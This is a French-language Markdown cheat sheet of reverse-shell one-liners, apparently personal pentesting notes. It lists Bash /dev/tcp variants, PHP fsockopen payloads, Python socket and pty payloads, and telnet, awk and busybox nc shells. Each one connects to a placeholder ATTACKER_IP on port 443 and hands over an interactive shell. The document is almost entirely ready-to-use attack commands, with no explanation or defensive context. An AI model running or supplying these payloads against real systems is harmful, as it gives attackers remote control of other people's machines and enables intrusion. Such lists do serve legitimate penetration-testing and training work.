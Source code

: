 ## 🔹 **Bash Reverse Shells**
- **Classique** :  
    bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
- **Read Line** :  
    exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
- **FD 196** :  
    0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196
- **FD 5** :  
    bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5

---

## 🔹 **PHP Reverse Shells**
- **exec** :  
    php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
- **shell_exec** :  
    php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
- **system** : 
    php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
- **passthru** :  
    php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
- **popen** :  
    php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3","r");'
    

---

## 🔹 **Python Reverse Shells**

(à lancer avec `python -c` → je mets **PY-C** en raccourci)

- **Avec variables d’env** :  
    export RHOST="ATTACKER_IP"; export RPORT=443; PY-C 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
    
- **Avec subprocess** :  
    PY-C 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    
- **Version courte** :  
    PY-C 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'

---

## 🔹 **Autres**
- **Telnet** :  
```telnet
    TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
```
    
- **AWK** :  
    awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
    
- **BusyBox** :  
    busybox nc ATTACKER_IP 443 -e sh